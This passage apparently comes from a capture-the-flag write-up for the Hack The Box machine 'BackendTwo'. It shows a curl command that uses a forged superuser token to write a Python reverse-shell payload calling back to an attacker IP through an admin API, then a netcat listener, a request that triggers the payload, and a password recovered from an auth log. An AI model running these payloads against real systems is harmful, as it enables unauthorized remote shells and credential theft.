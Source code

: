 ```bash
$ filename=$(echo -n '/home/htb/base64.py' | base64 -w 0); curl -s -X POST -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjYyMjYxMjgxLCJpYXQiOjE2NjE1NzAwODEsInN1YiI6IjEyIiwiaXNfc3VwZXJ1c2VyIjp0cnVlLCJndWlkIjoiOGMyODk2MDMtN2JhNS00ZGNjLTlmN2ItNTBjN2EyNDg5ODRiIiwiZGVidWciOnRydWV9.d_OkCVdfSiBWs3ZU3O2Nn9VahzdRwO3oPYt7Y_KAtsc' -H 'Content-Type: application/json' -d '{"file": "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.11",9000));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")"}' http://10.129.227.139/api/v1/admin/file/$filename
```

Start a reverse shell listener.

```bash
$ nc -nlvp 9000
listening on [any] 9000 ...
```

Interact with the read file endpoint to execute the reverse shell.

```bash
$ filename=$(echo -n '/etc/passwd' | base64 -w 0); curl -s -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjYyMjYxMjgxLCJpYXQiOjE2NjE1NzAwODEsInN1YiI6IjEyIiwiaXNfc3VwZXJ1c2VyIjp0cnVlLCJndWlkIjoiOGMyODk2MDMtN2JhNS00ZGNjLTlmN2ItNTBjN2EyNDg5ODRiIiwiZGVidWciOnRydWV9.d_OkCVdfSiBWs3ZU3O2Nn9VahzdRwO3oPYt7Y_KAtsc' http://10.129.227.139/api/v1/admin/file/$filename
```

---

## Privilege Escalation

Analyzing the API source code directory at `/home/htb/app/`, `auth.log` seems interesting. It logs the username for each login success and failure. It appears one user accidentally entered their password in as their username: `1qaz2wsx_htb!`.

```bash
htb@BackendTwo:~$ cat auth.log
08/26/2022, 22:56:31 - Login Success for admin@htb.local
08/26/2022, 22:59:51 - Login Success for admin@htb.local
08/26/2022, 23:13:11 - Login Success for admin@htb.local
08/26/2022, 23:16:31 - Login Success for admin@htb.local
08/26/2022, 23:21:31 - Login Success for admin@htb.local
08/26/2022, 23:24:51 - Login Success for admin@htb.local
08/26/2022, 23:38:11 - Login Success for admin@htb.local
08/26/2022, 23:46:31 - Login Success for admin@htb.local
08/26/2022, 23:48:11 - Login Success for admin@htb.local
08/26/2022, 23:54:51 - Login Success for admin@htb.local
08/27/2022, 00:03:11 - Login Failure for 1qaz2wsx_htb!
08/27/2022, 00:04:46 - Login Success for admin@htb.local
08/27/2022, 00:04:51 - Login Success for admin@htb.local
08/27/2022, 00:05:11 - Login Success for admin@htb.local
08/27/2022, 00:06:31 - Login Success for admin@htb.local
08/27/2022, 00:11:31 - Login Success for admin@htb.local
08/27/2022, 00:18:11 - Login Success for admin@htb.local
08/27/2022, 01:27:25 - Login Failure for blah
08/27/2022, 01:28:04 - Login Failure for foo
08/27/2022, 01:36:21 - Login Success for tgihf@backendtwo.htb
08/27/2022, 01:37:57 - Login Success for tgihf@backendtwo.htb
08/27/2022, 01:38:04 - Login Success for tgihf@backendtwo.htb
08/27/2022, 01:53:28 - Login Success for tgihf@backendtwo.htb
08/27/2022, 02:14:41 - Login Success for tgihf@backendtwo.htb
```
